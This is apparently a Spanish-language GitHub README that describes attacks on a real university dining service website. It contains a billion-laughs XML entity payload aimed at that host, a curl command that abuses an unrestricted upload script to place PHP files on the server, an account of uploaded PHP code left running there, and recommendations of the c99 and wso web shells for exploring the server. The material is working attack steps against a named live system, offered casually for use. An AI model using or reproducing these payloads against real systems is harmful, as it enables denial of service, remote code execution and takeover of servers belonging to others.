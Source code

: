```sh
Host: comedor.unc.edu.ar
Content-Type: application/x-www-form-urlencoded

xml=<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY lol "LOL ">
<!ENTITY lol1 "%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;">
<!ENTITY lol2 "%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1; %26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1; %26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;">
]>
<root>
<row id_elems="nombre">Yolo</row>
<row> %26lol2;%26lol2;%26lol2;%26lol2;%26lol2; </row>
</root>
```


### Upload file

Esto es del [formulario](http://comedor.unc.edu.ar/formulario/), 
el chequeo del tipo de foto se hace por un lado,
y por otro lado `upload.php` guarda directamente lo que le mandes.

```bash
f=file.php # Cualquier archivo
curl -i -F foto=@$f http://comedor.unc.edu.ar/formulario/php/upload.php --http1.0

# Esto sube el archivo $f en:
curl "http://comedor.unc.edu.ar/formulario/no-cargados/img/$f"
```


### Code Injection

Usando lo de arriba, podemos subir código `.php`, y por motivos solamente
nostálgicos, en este repo dejé [tutturu.jpg.php](./tutturu.jpg.php)
que es el primer código _php_ que escribí para subirlo al servidor.

A Junio de 2018, sigue en el servidor ❤:

http://comedor.unc.edu.ar/formulario/no-cargados/img/tutturu.jpg.php?param=Onii-Chan


### Shells

Esta es la parte mas loca. Existen bastantes shells escritas en PHP para poder
jugar y explorar todo el sistema operativo del servidor.

Con los que más tiempo estuve jugando son [c99.php](./c99.php) y 
[wso.php](./wso.php). Recomiendo seguir con `wso` que anda mejor.
